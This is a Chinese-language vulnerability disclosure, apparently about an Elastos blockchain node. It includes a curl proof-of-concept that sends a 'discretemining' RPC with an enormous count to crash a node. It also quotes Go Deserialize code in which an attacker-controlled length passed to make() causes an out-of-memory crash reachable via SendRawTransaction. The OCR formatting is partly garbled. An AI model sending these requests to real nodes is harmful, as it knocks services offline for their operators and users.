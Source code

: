 PoC：

```
curl--data - binary '`{`"method":"discretemining","params":`{`"count":"99999999999999"`}``}`' - H 'Content-Type:application/json'http: //*.*.*.*:20333
```

### DVP-2018-08813

core/payloadwithdrawfromsidechain.go漏洞代码片段：

```
func(t * PayloadWithdrawFromSideChain) Deserialize(r io.Reader, version byte) error `{`  height,
    err: =common.ReadUint32(r) if err != nil `{`
        return errors.New("[PayloadWithdrawFromSideChain], BlockHeight deserialize failed.")  
    `}`  address,
    err: =common.ReadVarString(r) if err != nil `{`
        return errors.New("[PayloadWithdrawFromSideChain], GenesisBlockAddress deserialize failed.")  
    `}`
    length,
    err: =common.ReadVarUint(r, 0)

    if err != nil `{`
        return errors.New("[PayloadWithdrawFromSideChain], SideChainTransactionHashes length deserialize failed")  
    `}`  t.SideChainTransactionHashes = nil  t.SideChainTransactionHashes = make([] common.Uint256, length) for i: =uint64(0);
    i &lt; length;
    i++`{`
        var hash common.Uint256    err: =hash.Deserialize(r) if err != nil `{`
            return errors.New("[WithdrawFromSideChain], SideChainTransactionHashes deserialize failed.")    
        `}`    t.SideChainTransactionHashes[i] = hash  
    `}`  t.BlockHeight = height  t.GenesisBlockAddress = address  
    return nil
`}`
```



这里同样是由于make函数的第二个参数由参数r控制，只要r可控就可以使make函数引发OOM，从而Crash。

在servers/interface.go中的SendRawTransaction函数中发现间接的调用了Transaction的Deserialize函数，具体如下：

```
func SendRawTransaction(param Params) map[string] interface `{``}` `{`
    str,
    ok: =param.String("data") if ! ok `{`
        return ResponsePack(InvalidParams, "need a string parameter named data")  
    `}`
    bys,
    err: =HexStringToBytes(str) if err != nil `{`
        return ResponsePack(InvalidParams, "hex string to bytes error")  
    `}`
    var txn Transaction err: =txn.Deserialize(bytes.NewReader(bys));
    err != nil `{`
        return ResponsePack(InvalidTransaction, "transaction deserialize error")  
    `}`
    if errCode: =VerifyAndSendTx( &amp; txn);
    errCode != Success `{`
        return ResponsePack(errCode, errCode.Message())  
    `}`
    return ResponsePack(Success, ToReversedString(txn.Hash()))
`}`
```
